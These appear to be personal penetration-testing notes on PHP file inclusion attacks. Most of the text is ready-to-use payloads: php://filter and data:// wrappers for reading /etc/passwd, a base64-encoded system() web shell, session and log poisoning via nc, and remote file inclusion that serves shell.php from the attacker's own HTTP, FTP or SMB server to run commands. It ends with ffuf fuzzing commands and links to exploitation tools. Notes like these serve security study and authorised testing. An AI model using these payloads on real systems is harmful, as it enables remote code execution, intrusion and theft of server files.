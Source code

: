 ![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

##### Check if wrappers are supported
To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.
```
allow_url_include = On
```

[[php]]
##### PHP Wrappers
* https://www.php.net/manual/en/wrappers.php.php
* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `php://filter/read=convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`



![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

###### Session poisoning files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL with LFI vulnerability to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
[[log poison]]
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```
or poison User-Agent header


Then using LFI vulnerability to access the log file.
log files:
`/var/log/apache2/access.log`
`C:\xampp\apache\logs\`
`/var/log/nginx/ `
`C:\nginx\log\`

or for User-Agent header:
```
Tip: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.
```

other logs:
    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log

LFI fuzz
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI


##### LFI
`dataserver=file:///etc/passwd`

#### RFI
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Verify RFI
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
or
`try and include a URL`, and see if we can get its content

RCE with RFI [[RCE]]
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

python3 -m http.server 8000
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:8000/shell.php&cmd=id
```
or host our script via ftp
```shell
sudo python -m pyftpdlib -p 21

curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

host via smb [[SMB]]
```bash
impacket-smbserver -smb2support share $(pwd)
```
open
```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

RCE via file upload [[RCE]]
1. upload a php script (look File upload section)
2. use LFI methos to  `?language=./uploads/shell.gif&cmd=id`

LFI fuzzing
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters
/index.php?language=FUZZ
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

fuzzing server dirs [[ffuf]]
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

fuzz logs and configs of server
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

LIF automation
https://github.com/D35m0nd142/LFISuite
https://github.com/OsandaMalith/LFiFreak
https://github.com/mzfr/liffy